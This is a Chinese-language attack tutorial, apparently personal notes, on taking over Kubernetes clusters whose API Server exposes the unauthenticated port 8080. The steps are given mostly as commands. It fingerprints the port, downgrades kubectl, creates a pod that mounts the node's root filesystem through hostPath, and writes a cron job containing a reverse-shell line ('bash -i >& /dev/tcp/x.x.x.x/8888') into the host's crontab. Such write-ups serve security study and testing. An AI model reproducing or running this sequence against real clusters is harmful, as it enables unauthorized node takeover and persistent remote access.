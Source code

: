 [toc]

## 1. 攻击存在未授权访问漏洞的k8s

### 1.1. 成因

漏洞的起因是因为8080端口未进行限制或者关闭。根据官方文档，API Server 默认会开启两个端口：8080 和 6443。其中 8080 端口无需认证，应该仅用于测试。6443 端口需要认证，且有 TLS 保护。

### 1.2. 攻击步骤

#### 1.2.1. 访问8080端口

访问8080端口，如果返回类似以下信息则表示存在漏洞：
![](_v_images/20200502165740797_23931.png)

对于8080端口的指纹，则如下：
![](_v_images/20200502165839863_13014.png)

如果Kubernetes API Server配置了Dashboard,通过路径/api/ui即可访问：
![](_v_images/20200502165922771_9455.png)

#### 1.2.2. 安装 kubectl

但是测试的这一台并没有配置 dashboard，所以不能通过图形界面来创建容器，只能通过 kubectl（kubectl是官方提供了一个命令行工具 ）来进行操作。kubectl 安装过程如下：
```
# cat <<EOF > /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://packages.cloud.google.com/yum/repos/kubernetes-el7-x86_64
enabled=1
gpgcheck=1
repo_gpgcheck=1
gpgkey=https://packages.cloud.google.com/yum/doc/yum-key.gpg https://packages.cloud.google.com/yum/doc/rpm-package-key.gpg
EOF
# yum install -y kubectl
```

#### 1.2.3. 使用kubectl尝试连接

尝试获取目标机器的信息：
![](_v_images/20200502170612330_24922.png)

需要注意到是如果你的kubectl版本比服务器的高，会出现如下错误，需要把kubectl的版本降低
![](_v_images/20200502170745976_30822.png)

下面把kubectl版本降到1.8.7：
```
# curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.8.7/bin/linux/amd64/kubectl
# chmod 777 kubectl
# mv /usr/bin/kubectl /usr/bin/kubectl.bak
# mv kubectl /usr/bin/kubectl
```

查看版本降成了1.8.7，执行命令成功
![](_v_images/20200502170827491_267.png)

#### 1.2.4. 挂载目录
接着在本机上新建个yaml文件用于创建容器，并将节点的根目录挂载到容器的 /mnt 目录，内容如下：
```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: test-container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```


然后使用 kubectl 创建容器：
```
// 由 myapp.yaml 创建容器，并使用定时任务反弹shell
# kubectl -s 1.2.3.4:8080 create -f myapp.yaml
// 等待容器创建完成
// 获得 myapp 的交互式 shell
# kubectl -s 1.2.3.4:8080 --namespace=default exec -it myapp bash
// 向 crontab 写入反弹 shell 的定时任务
# echo -e "* * * * * root bash -i >& /dev/tcp/x.x.x.x/8888 0>&1\n" >> /mnt/etc/crontab
```
![](_v_images/20200502171816707_9648.png)

#### 1.2.5. 获得权限
![](_v_images/20200502171853047_17460.png)

#### 1.2.6. 总结
其实手法还是挺简单的，基本上和攻击未授权的 docker api一样，通过挂载目录，然后写计划任务来获得shell

#### 1.2.7. 参考链接
https://0x0d.im/archives/attack-container-management-platform.html
